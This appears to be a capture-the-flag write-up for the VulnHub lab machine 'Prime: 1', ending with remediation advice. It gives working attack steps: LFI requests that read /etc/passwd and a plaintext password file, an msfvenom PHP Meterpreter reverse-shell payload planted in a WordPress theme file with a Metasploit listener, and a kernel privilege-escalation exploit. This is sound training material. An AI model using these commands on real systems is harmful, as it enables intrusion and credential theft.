




# Prime: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux (Ubuntu 16.04) |
| **User Flag** | `/home/saket/user.txt` |
| **Root Flag** | `/root/root.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/prime-1,358/) |

## Attack Summary

dirb finds `/WordPress` and `secret.txt` → LFI in `index.php?file=` reveals `location.txt` → LFI in `image.php?secrettier360=` reads `/home/saket/password.txt` → WordPress login (`victor:follow_the_ippsec`) → writable `secret.php` in theme → PHP Meterpreter shell → kernel exploit (`bpf_sign_extension_priv_esc`) → root.

## Methodology

1. Directory enumeration: discover WordPress install and `secret.txt` hint file
2. LFI chain: two separate LFI parameters expose internal files
3. Credential retrieval: read plaintext password from user's home directory
4. WordPress code injection: overwrite writable theme PHP file
5. Privilege escalation: Linux kernel BPF sign-extension exploit

---

## Step 1: Network Discovery and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
```

Open ports: **22 (SSH)**, **80 (HTTP)**.



---

## Step 2: Web Enumeration

Web root shows a default page. Run directory brute-force:

```bash
dirb http://192.168.1.101
```

Finds:
- `/dev` — directory listing, nothing useful
- `/WordPress` — WordPress installation

WordPress login page shows username **victor** in post metadata.

```bash
dirb http://192.168.1.101/ -X .txt
```

Finds **`/secret.txt`** — contains a hint referencing a GitHub link and the word "file", suggesting a GET parameter name.


---

## Step 3: LFI #1 — `index.php?file=`

```
http://192.168.1.101/index.php?file=location.txt
```

Returns `location.txt`, which reveals:
```
I know you are looking for the key but it's not here. Try secrettier360 parameter on /image.php
```

---

## Step 4: LFI #2 — `image.php?secrettier360=`

```
http://192.168.1.101/image.php?secrettier360=/etc/passwd
```

Returns `/etc/passwd`. User **saket** is listed with a home directory at `/home/saket`.

```
http://192.168.1.101/image.php?secrettier360=/home/saket/password.txt
```

**Password found: `follow_the_ippsec`**



---

## Step 5: WordPress Login and Code Injection

Login to WordPress admin panel:
- **URL:** `http://192.168.1.101/WordPress/wp-login.php`
- **Username:** `victor`
- **Password:** `follow_the_ippsec`

Plugin and theme file uploads fail (directory not writable). Navigate to **Appearance → Theme Editor → twentynineteen → secret.php** — this file is writable.

Generate a PHP Meterpreter payload:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.106 LPORT=4444 -f raw > shell.php
```

Paste the generated PHP code into `secret.php` via the theme editor and save.

Start a Metasploit listener:

```bash
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.1.106
set LPORT 4444
exploit
```

Trigger the shell:

```
http://192.168.1.101/WordPress/wp-content/themes/twentynineteen/secret.php
```

Meterpreter session opens as `www-data`.



```bash
# Read user flag
cat /home/saket/user.txt
```

---

## Step 6: Privilege Escalation — Kernel Exploit

Check the kernel version:

```bash
uname -a
# Linux prime 4.10.0-28-generic #32~16.04.2-Ubuntu
```

Use the BPF sign-extension privilege escalation module:

```bash
# In Metasploit
use exploit/linux/local/bpf_sign_extension_priv_esc
set session 1
exploit
```

Session 2 opens as root.

```bash
cat /root/root.txt
```



---

## Lessons Learned

1. **LFI chained across multiple endpoints**: even a hint file like `secret.txt` pointing to a parameter name is enough to chain full file disclosure.
2. **Plaintext credentials in user's home directory**: `password.txt` is never a safe storage location.
3. **Writable theme files in WordPress**: any writable PHP file in the webroot is a code execution path.
4. **Kernel exploit (BPF)**: unpatched kernels remain a reliable local privilege escalation path on older Ubuntu LTS.

## Remediation

| Vulnerability | Fix |
|---|---|
| LFI in `index.php` and `image.php` | Validate and whitelist the `file`/`secrettier360` parameter |
| Plaintext password file | Never store credentials in plaintext; use a password manager or secrets vault |
| Writable WordPress theme files | Set correct permissions; use read-only mounts for webroot |
| Outdated kernel | Apply security updates; monitor for CVEs affecting running kernel |
